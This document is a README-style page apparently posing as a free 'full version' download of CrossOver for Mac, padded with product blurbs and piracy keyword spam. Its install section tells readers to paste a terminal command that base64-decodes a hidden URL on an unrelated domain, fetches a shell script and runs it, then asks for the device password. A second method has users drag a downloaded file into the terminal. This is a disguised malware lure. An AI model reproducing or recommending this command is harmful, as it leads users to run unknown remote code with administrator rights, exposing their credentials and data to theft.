 # CrossOver Mac Download

![CrossOver Box](https://media.codeweavers.com/pub/crossover/website/images/pages/crossover/CrossOver-box-iso.png)  

---

# ⬇️ Download CrossOver for Mac

[![⬇️ Download Now](https://img.shields.io/badge/CrossOver%20%20Mac-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/CrossOver)

# 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 💡 What is CrossOver for Mac?

**CrossOver for Mac** is a powerful and innovative compatibility tool developed by **CodeWeavers** that allows users to run Windows applications directly on macOS — **without the need for a virtual machine or a licensed copy of Windows**. It is based on the open-source Wine project but comes with a user-friendly interface, commercial support, and enhanced compatibility tailored for Mac users.

CrossOver enables seamless integration of many popular Windows software and games with your Mac desktop. This includes productivity tools like Microsoft Office, Access, Quicken, Visio, and even demanding 3D games that would normally require a full Windows environment. Whether you're a professional needing access to specific Windows-only software or a gamer wanting to enjoy PC titles, CrossOver eliminates the hassle of switching between operating systems.

One of the most compelling features of CrossOver is its **native support for Apple Silicon** (including M1, M2, and M3 chips), making it one of the fastest and most efficient ways to run Windows apps on modern Macs. Unlike traditional emulators and virtual machines such as Parallels or VMware Fusion, CrossOver doesn’t require large system resources. It runs the applications directly using a compatibility layer, which makes them faster, lighter, and better integrated into macOS.

Additionally, CrossOver is continually updated to support the latest versions of macOS, such as **macOS Sonoma, Ventura, and Monterey**, ensuring stability and compatibility over time. The software also features a **bottle system**, which allows users to install and manage multiple applications or different versions of the same app without interference, making it ideal for testing or development environments.

In short, CrossOver is a powerful solution that **bridges the gap between Windows and Mac ecosystems**, providing a smooth, cost-effective, and resource-efficient way to access Windows applications on macOS. Whether you're a developer, a student, a business user, or just someone transitioning from a PC to Mac, CrossOver is a smart choice to enhance your workflow without sacrificing functionality.

---

## 🚀 Key Features

- 🪟 Run Windows apps directly on macOS without emulation  
- 💻 Native support for **Apple M1/M2/M3** & **Intel Macs**  
- ⚡ No Windows license or VM required  
- 🎮 Play popular PC games on Mac  
- 🛠️ Ideal for productivity software like Office, Quicken, Visio, etc.  
- 🔁 One-click installation and management of apps  
- 🧩 Supports **macOS Sonoma, Ventura, Monterey**

---

## 💻 System Requirements

- macOS 11.0 (Big Sur) or newer  
- Compatible with **Intel & Apple Silicon (M1/M2/M3)**  
- At least 2 GB RAM (4 GB+ recommended)  
- 1 GB free disk space for CrossOver installation

---

![CrossOver on Apple Silicon](https://media.idownloadblog.com/wp-content/uploads/2020/11/crossover-quicken-apple-silicon-mac.jpg)

---

## 📦 Available Versions

- CrossOver 23 for Mac  
- CrossOver 22 Mac Download  
- CrossOver 21 Mac M1 Compatible  
- CrossOver 20 Mac M1  
- CrossOver 19 Mac Legacy Support

---

## 🔑 Keywords

`crossover mac`, `crossover macbook`, `cross over macbook`, `crossover app for mac`,  
`crossover application mac`, `crossover for mac os`, `crossover mac software`,  
`crossover office mac`, `crossover os x`, `crossover mac free`, `crossover mac download`,  
`cross over macos`, `crossover program mac`, `mac cross over`, `crossover mac free download`,  
`crossover mac m1`, `codeweavers crossover for mac`, `crossover free download full version for mac`,  
`crossover mac download free full version`, `crossover mac full`, `apple m1 crossover`,  
`crossover 19 mac`, `crossover 19 mac download`, `crossover 20 mac`, `crossover 20 mac m1`,  
`crossover 21 for mac`, `crossover 21 mac`, `crossover 21 mac m1`, `crossover 22 mac`,  
`crossover 22 mac download`, `crossover 23 mac`, `crossover activation code free`,  
`crossover apple m1`, `crossover download mac m1`, `crossover for m1`, `crossover for m1 mac`,  
`crossover for mac m1`, `crossover for mac m1 download`, `crossover m1 mac`

---
